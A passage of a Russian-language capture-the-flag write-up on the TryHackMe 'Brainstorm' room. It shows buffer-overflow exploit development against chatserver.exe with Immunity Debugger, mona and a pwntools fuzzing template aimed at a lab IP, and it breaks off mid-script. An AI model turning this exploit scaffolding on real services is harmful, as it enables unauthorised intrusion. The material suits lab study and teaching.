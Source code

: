 Из этого следует, что, возможно, инструкцию `call esp/jmp esp` для вызова кода из стека, нужно искать в `DLL`, где адреса точно постоянны.

Запускаю `chatserver.exe` на Windows машине с `immunity debugger`
Создаю рабочую директорию  
```python
!mona config -set workingfolder c:\mona\%p
```
<img width="1918" height="1016" alt="image" src="https://github.com/user-attachments/assets/c67671c4-bbcb-4fc6-ad44-81a2af470664" />

Далее создаю шаблон с помощью `pwntool`
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Brainstorm/exploits]
└─$ actv
                                                                                                                  
┌──(.venv)─(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Brainstorm/exploits]
└─$ pwn template ./chatserver.exe --quiet --host 192.168.56.124 --port 9999 > x.py 
[*] Automatically detecting challenge binaries...
```

После каждого введенного `Message`, приложение запрашивает новое, так что можно не переподключаться для фаззинга, а работать в одной сессии
```python
from pwn import *

context.update(arch='i386')
exe = './chatserver.exe'

host = args.HOST or '192.168.56.124'
port = int(args.PORT or 9999)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.EDB:
        return process(['edb', '--run', exe] + argv, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)


# ==================== LOCAL  CONSTANTS =====================
USERNAME = b'--pentest'
# ==================== OPTIMIZED FUZZER =====================
def run_fuzzer():
    io = start()

    print(io.recvuntil(b'Please enter your username (max 20 characters): ').decode('utf-8'))
    io.sendline(USERNAME)
    print(USERNAME)
    print(io.recvuntil(b'Write a message: ').decode('utf-8'))
```